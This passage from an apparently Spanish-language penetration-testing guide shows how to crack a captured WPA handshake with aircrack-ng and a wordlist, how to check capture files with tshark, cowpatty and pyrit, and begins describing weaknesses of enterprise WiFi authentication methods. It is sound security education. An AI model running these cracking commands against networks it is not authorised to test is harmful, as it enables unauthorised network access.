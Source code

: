 ![](<../../.gitbook/assets/image (172) (1).png>)

Una vez que el handshake es capturado, puedes **crackearlo** con `aircrack-ng`:

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```

### Verificar si el apretón de manos está en el archivo

**aircrack**

```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```

**tshark**

```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```

[**cowpatty**](https://github.com/roobixx/cowpatty)

```
cowpatty -r psk-01.cap -s "ESSID" -f -
```

_Si esta herramienta encuentra un apretón de manos incompleto de un ESSID antes del completado, no detectará el válido._

**pyrit**

```bash
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
```

## **WPA Enterprise (MGT)**

En **configuraciones de WiFi empresarial, encontrarás varios métodos de autenticación**, cada uno proporcionando diferentes niveles de seguridad y características de gestión. Cuando uses herramientas como `airodump-ng` para inspeccionar el tráfico de red, podrías notar identificadores para estos tipos de autenticación. Algunos métodos comunes incluyen:

```
6A:FE:3B:73:18:FB  -58       19        0    0   1  195  WPA2 CCMP   MGT  NameOfMyWifi
```

1. **EAP-GTC (Generic Token Card)**:

* Este método admite tokens de hardware y contraseñas de un solo uso dentro de EAP-PEAP. A diferencia de MSCHAPv2, no utiliza un desafío entre pares y envía contraseñas en texto claro al punto de acceso, lo que plantea un riesgo para ataques de degradación.

2. **EAP-MD5 (Message Digest 5)**:

* Implica enviar el hash MD5 de la contraseña desde el cliente. **No se recomienda** debido a la vulnerabilidad a ataques de diccionario, la falta de autenticación del servidor y la incapacidad de generar claves WEP específicas de la sesión.
